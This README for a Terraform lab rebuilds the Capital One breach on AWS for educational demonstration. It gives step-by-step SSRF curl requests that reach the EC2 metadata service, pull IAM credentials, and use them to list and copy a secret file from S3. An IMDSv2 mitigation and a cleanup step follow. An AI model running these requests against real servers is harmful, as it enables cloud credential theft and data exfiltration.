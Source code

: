 # Capital One Breach - IaC
<i> We will use terraform `Infrastructure as a Code` tool to create the setup.  
The terraform file attached will help to create the required resources, AWS services and connectivity to reproduce the breach.
it is possible to `destroy` the stack when done and the created resources will be deleted</i>  

## Prerequisites  
- Modify or change inputs in the `main.tf` file with the relevant region, key_pairs, instance_profile
- Validate the `main.tf` file and check that the `terraform fmt, validate, plan` command has no errors.
- The script will create a new S3 bucket named `c-one-demo` and upload a "secret" file

## Demo Instruction

1. copy the `main.tf` file to your local dir and run: 
   ```$ terraform init 
      $ terraform fmt 
      $ terraform validate 
      $ terrafrom plan
   ```

2. If there are no errors, you can proceed to `terraform apply`   
   check that the resources successfully created.
   You should get the following outputs:  
   ```
   bucket_name = "c-one-demo"
   instance_id = "i-<instance_ID_number>"
   public_ip = "<public_ipv4>"
   ```  

3. At this point it is possible to run the HTTP request to pull out the metadata information:
   First check that the server respond to curl:
   ``` 
   $ curl http://<public_ipv4_address>/ 
   ```
4. Explore metadata vulnerability  
   Check for some of the metadata categories available:
   ```
   $ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/
   ```
   The output should include all categories of information that the ec2 instance would be able to access.

5. Extract AWS credentials  
   By navigating through the API structure, we can eventually get to credentials. Paste each url into your browser to work through the API directory structure.  
   {Instance-Profile} - The instance profile name will be unique to each environment.  
   This will be the value listed under security-credentials - 2nd url below

    ```
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
    http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{Instance-Profile}
    ```  

    ![](ssrf_1.png)  

6. Extract the VM AWS credentials  
   These are the credentials of the instance profile that is being used by the ec2 instance. By making a profile using these credentials, we will be able to execute AWS API calls using the identity of the ec2 instance instance profile.  
   Copy the value of `AccessKeyId`, `SecretAccessKey` and `Token`, and use it to configure a profile called c-demo.
   ```
   $ aws configure --profile c-demo
   ```  
   Add the `Token` by adding `aws_session_token` to your aws credential. By default, credential files are stored in the following places:  
   `Windows: C:\Users\username\.aws\credentials`
   `Linux: ~/.aws/credentials`
   
   Variables Required:  

   `aws_access_key_id = {AccessKeyId}`          - The Access key as found in the browser window.
   `aws_secret_access_key = {SecretAccessKey}`  - The Secret Access key, as shown in the browser
   `aws_session_token = {Token}`                - The Token value, as shown in the browser. 

  
7. Let's get it done!  
   At this point, you should be able to query caller identity API from your workstation.
   List the available s3 buckets:
   ```
   $ aws s3 ls --profile c-demo
   ```  

   Run the below command, substituting {bucket_name} for the name of the ec2-metadata bucket returned in the previous step.
   ```
   $ aws s3 ls {bucket_name} --profile ssrf-demo
   ```  
   There's another object in here, our `top_secret_file`  
   As an attacker, we might want to download this file. This process is called data exfiltration.

8. Exfiltrate the data!  
   Let's download the file locally and examine the contents
   ```
   $ aws s3 cp s3://{bucket_name}/top_secret_file ./ --profile c-demo
   ```
   
   Congratulations, you have just achieved your malicious objective!

## Mitigate the breach

Run a CLI command to force the ec2 instance to require a http token when issuing a command, by using IMDS v2.
You can use the ec2 `instance-id` provided by the terraform output.
```
$ aws ec2 modify-instance-metadata-options --instance-id "{INSTANCE_ID}" --http-tokens required --http-endpoint enabled 
```
The ec2 is still running, meaning that the response will return the State as Pending.
Run the same exploits against the web server:
```
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials
$ curl http://<public_ip>/?url=http://169.254.169.254/latest/meta-data/iam/security-credentials/{name-of-your-instance-profile}
```  
At this point, webserver should not return any data for given urls, given the instance metadata service is blocking any request without the token.

9. Clean up.  
  Remove the created resource, ec2 and the S3 bucket:
  ```
  $ terraform destroy
  ```

## References:

